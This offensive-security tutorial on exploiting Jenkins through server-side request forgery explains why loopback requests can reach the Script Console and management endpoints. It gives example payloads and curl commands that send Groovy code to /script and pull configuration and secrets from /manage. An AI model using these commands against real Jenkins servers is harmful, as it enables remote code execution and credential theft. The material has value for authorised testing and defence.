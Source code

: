 ```yaml
---
title: Exploiting Jenkins SSRF for Internal Access
description: Learn how to exploit Jenkins SSRF vulnerabilities to access internal
  services and sensitive data.
keywords:
- Jenkins SSRF
- Jenkins vulnerabilities
- Groovy script execution
- SSRF exploitation
- Jenkins HTTP endpoints
---
```


# Jenkins

## Context

This article demonstrates the operational exploitation of Jenkins HTTP endpoints through Server-Side Request Forgery (SSRF) to interact with internal services and access sensitive data. Readers should have foundational knowledge of the HTTP protocol and general SSRF attack principles to understand the techniques discussed.

## Theory

### Jenkins Architecture and HTTP Exposure

Jenkins is a popular continuous integration and continuous delivery (CI/CD) automation server featuring a web-based management interface and REST API. It exposes several HTTP endpoints that allow for job management, plugin administration, and system configuration. Since Jenkins often runs with elevated privileges, it may have access to internal network resources, increasing its risk profile in organizations.

### Jenkins Console and Internal Config Endpoints

A critical feature of Jenkins is the Script Console, which permits the execution of Groovy scripts with system-level privileges. This functionality is accessible through endpoints such as `/script`, `/manage`, and `/configure`, which can expose sensitive settings and credentials if improperly secured. SSRF vulnerabilities can be exploited to access these endpoints from within the Jenkins server context, making them attractive targets for attackers.

### SSRF Exploitation in Jenkins

In an SSRF attack targeting Jenkins, an attacker must first identify a vulnerable plugin or endpoint, typically one that processes user-supplied URLs, such as a build trigger with a webhook URL. Upon finding such a vulnerability, the attacker crafts a request to target internal Jenkins HTTP endpoints, such as `/script` or `/manage`, to execute Groovy code or extract sensitive configuration. 

### Jenkins Security Mechanisms and SSRF Bypass

Jenkins is built on trust assumptions that requests from `localhost` or the internal network are trustworthy. SSRF payloads can exploit this assumption by utilizing `127.0.0.1`, `localhost`, or the IPv6 loopback address to access protected endpoints. The lack of rigorous validation in some plugins allows user-supplied URLs to bypass security measures, facilitating SSRF attacks.

## Practice

### Access Jenkins Script Console via SSRF

- Identify a Jenkins plugin or endpoint that is vulnerable to SSRF. This could be a build trigger configured to accept webhook URLs. Understanding the location of this SSRF sink will allow you to form a strategy to relay requests to internal Jenkins endpoints.
    - Example Payload:  
      ```http
      http://127.0.0.1:8080/script
      ```
- Use the following command to send an SSRF payload to the vulnerable endpoint:
    ```bash
    curl -X POST -d 'script=println("ssrf_test")' http://<vulnerable-plugin-endpoint>?url=http://127.0.0.1:8080/script
    ```
- Outcome: By executing this payload, you leverage SSRF to execute arbitrary Groovy code on the Jenkins server.

### Extract Jenkins Internal Configuration via SSRF

- Exploit SSRF to access endpoints that handle sensitive configurations, such as `/manage` or `/configure`. By doing so, you can retrieve internal Jenkins data.
    - Example Payload:  
      ```http
      http://127.0.0.1:8080/manage
      ```
- Use the following command to send an SSRF request through the vulnerable endpoint:
    ```bash
    curl http://<vulnerable-plugin-endpoint>?url=http://127.0.0.1:8080/manage
    ```
- Outcome: This allows access to sensitive Jenkins configurations, secrets, or credentials through SSRF exploitation.

## Tools

- **curl**
- **Burp Suite** 

These tools are essential for crafting and sending HTTP requests that exploit SSRF vulnerabilities effectively, enabling interaction with the Jenkins interface for malicious purposes.